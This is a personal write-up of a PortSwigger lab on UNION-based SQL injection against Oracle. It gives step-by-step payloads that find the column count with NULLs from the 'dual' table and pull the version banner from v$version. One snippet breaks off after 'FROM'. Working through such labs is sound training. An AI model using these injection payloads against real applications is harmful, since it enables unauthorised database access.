 # 🧠 Lab Title: SQL injection attack, querying the database type and version on Oracle

## 🔍 Category
SQLI

## 🎯 Objective
> Display the database version string.

## 🧰 Tools Used
- Notepad

## 🚀 Exploitation Steps
#### Observe the description
> Before diving into the lab, we’re told it's using an Oracle database, which has a special dummy table called `dual`. so the statment looks like this 
```sql 
UNION SELECT 'abc' FROM dual
``` 
and the vulnerability is in the product category filter, we should do UNION based attack.

#### Access the lab
> Click on `ACCESS THE LAB`

#### START HACKING!!!
1) Imagine the query  
```sql
SELECT * FROM products WHERE category = '';
```
2) Enter '
3) We get a 500 error – this is a good sign, as it suggests our input broke the query, indicating SQL injection 
4) from [portswigger's cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) we know that to retrive the database version we do 
```sql
SELECT banner FROM 
```
but first we need to define the numbers of coulmns of the database so we do
```sql
' UNION SELECT NULL FROM dual -- 
```
we still get 500 , which means our statment is wrong , so we will put another NULL 

```sql
' UNION SELECT NULL ,NULL FROM dual -- 
```
we got a 200 (HTTP STATUS CODE)!!!

so now lets build our payload

```sql
' UNION SELECT BANNER , NULL FROM v$version --
```
### 4. Proof of Success
- We can see the database version
## 🧵 Reflection
> What is the table that Oracle has as a dummy? \ 
> How to retrieve the version of the Oracle database?
